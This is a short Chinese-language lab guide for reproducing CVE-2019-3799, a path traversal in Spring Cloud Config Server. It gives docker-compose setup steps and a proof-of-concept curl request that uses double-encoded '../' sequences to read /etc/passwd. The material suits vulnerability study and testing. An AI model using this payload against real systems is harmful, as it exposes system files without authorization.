

Spring Cloud Config Server 路径穿越与任意文件读取漏洞分析 - （CVE-2019-3799）

Spring Cloud Config是Spring体系中一个基于http协议的远程配置管理实现方式。 通过统一的配置管理服务器进行配置管理，客户端可以通过https协议主动的拉取服务的配置信息，自动完成配置获取。

参考链接：

- https://xz.aliyun.com/t/4844

## 环境搭建

执行下面命令启动漏洞环境：

```
docker-compose up -d
```

稍等一会，环境启动后，访问`http://your-ip:8888`。

## 漏洞复现

参考前面链接中的Payload，在注册的时候抓包，并修改成如下数据包：


poc
```
curl http://*.*.*.*:8888/test/pathtraversal/master/..%252f..%252f..%252f..%252f../etc/passwd
```


